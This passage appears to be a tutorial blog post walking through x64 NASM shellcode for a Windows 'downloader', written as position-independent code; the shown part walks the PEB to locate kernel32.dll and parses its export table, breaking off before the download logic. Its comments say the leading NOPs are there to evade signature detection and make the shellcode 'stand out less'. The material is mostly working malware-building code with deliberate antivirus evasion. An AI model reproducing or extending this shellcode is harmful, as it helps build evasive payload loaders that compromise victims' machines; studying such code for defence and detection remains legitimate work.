 Ok so now it's time dive into the full, revised assembly code.  This time around, we will be producing the PIC formatted assembly code.  I'll try and provide comments throughout but I promise to go into even greater detail in my soon to be x64 Assembly/Shellcode video series.  It will be a purchaseable item in my ko-fi shop once it's ready.  Ok let's start laying this code out.  I'll be going over it in segments because there's a lot to cover.  I corrected an issue with the loop code in the earlier examples by the way, so the read file loop will look a bit different in the PIC code.  Just FYI. See my comments inline below:

```nasm
;nasm -fwin64 [x64findkernel32.asm]
;x86_64-w64-mingw32-gcc downloader.obj -o downloader.exe

BITS 64

SECTION .data
SECTION .bss

;**********************************************************************
; This first part is just the standard prologue that all shellcode uses
; to walk the PEB and locate our API function addresses in memory
;**********************************************************************

section .text
global main
main:
                         ; metasploit shellcode normally starts with the same hex values.  using nops to start will help ours stand out less :)
                         ; plus this will be custom made shellcode so that helps too :)
nop                      ;throw off rudimentary signature detection based on shellcode patterns
nop                      ;throw off rudimentary signature detection based on shellcode patterns
nop                      ;throw off rudimentary signature detection based on shellcode patterns
nop                      ;throw off rudimentary signature detection based on shellcode patterns
nop                      ;throw off rudimentary signature detection based on shellcode patterns
nop                      ;throw off rudimentary signature detection based on shellcode patterns
nop                      ;throw off rudimentary signature detection based on shellcode patterns
sub rsp, 0x28
and rsp, 0xFFFFFFFFFFFFFFF0
xor rcx, rcx             ; RCX = 0
mov rax, [gs:rcx + 0x60] ; RAX = PEB
mov rax, [rax + 0x18]    ; RAX = PEB->Ldr
mov rsi,[rax+0x10]       ;PEB.Ldr->InMemOrderModuleList
mov rsi, [rsi]
mov rsi,[rsi]
mov rbx, [rsi+0x30]      ;kernel32.dll base address
mov r8, rbx              ; mov kernel32.dll base addr into r8
;Code for parsing Export Address Table
mov ebx, [rbx+0x3C]           ; Get Kernel32 PE Signature (offset 0x3C) into EBX
add rbx, r8                   ; Add signature offset to kernel32 base. Store in RBX.
xor rcx, rcx                  ; Avoid null bytes from mov edx,[rbx+0x88] by using rcx register to add
add cx, 0x88ff
shr rcx, 0x8                  ; RCX = 0x88ff --> 0x88
mov edx, [rbx+rcx]            ; EDX = [&NewEXEHeader + Offset RVA ExportTable] = RVA ExportTable
add rdx, r8                   ; RDX = kernel32.dll + RVA ExportTable = ExportTable Address
mov r10d, [rdx+0x14]          ; Number of functions
xor r11, r11                  ; Zero R11 before use
mov r11d, [rdx+0x20]          ; AddressOfNames RVA
add r11, r8                   ; AddressOfNames VMA
mov r13, r11                  ; Save for later
mov rcx, r10                  ; Set loop counter

;**********************************************************************
; In short, this second part is where we start cycling through all the API functions
; Starting with Z and working our way to A
```
